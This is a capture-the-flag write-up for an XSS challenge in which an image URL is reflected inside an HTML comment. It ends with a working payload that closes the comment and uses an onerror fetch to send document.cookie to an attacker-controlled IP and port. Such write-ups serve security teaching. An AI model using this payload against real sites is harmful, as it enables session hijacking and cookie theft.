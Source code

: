 ```yaml
---
layout: default
---
```

# Description
Task xss00: Image Competition

As is customary, the IT-Sec Chair is hosting its yearly photography competition. The winner of the competition will be given a flag. However, your chances of winning are slim as Sebastião Salgado has announced that he will be competing this year. Maybe there is another way to get a flag other then submitting the best photo?

## Overview
The website offers two action:
- uploading an url to an image
- sending a request to the admin, so that he will visit the page with the uploaded image

The Image is provided through a link to it.

## Security Features
Notable is, that the cookies on this website are not secured by HttpOnly and thus can be accessed by js. 

# Vulnerability
While the image src is sanitized to not escape the `src="<img>"` through replacing all quotes:
```python
$template->assign('TEMPLATE_IMAGE_SRC', str_replace('"', '', $_POST['image']));
```
... the website uses it again and makes a fatal mistake because they forgot to use the same concept of preventing closing the current environment, which is in this case a comment:

```python
<img src="<?php echo $TEMPLATE_IMAGE_SRC ?>" alt="If you can read this, the image was probably not found!" />
<!-- TODO: Remove old img tag thats not using alt!
<img src="<?php echo $TEMPLATE_IMAGE_SRC ?>"/>
-->
```

## Exploiting
We can close the comment and insert after that arbitrary html (including js) code $\rightarrow$ XSS.
Usually HTML is very soft to mistakes you can start another comment in the end to match it with the still to parse comment closing tag.

`"--><img src=x onerror=fetch('http://{my_ip}:{LISTEN_PORT}/?leak='.concat(encodeURIComponent(document.cookie)));>"`
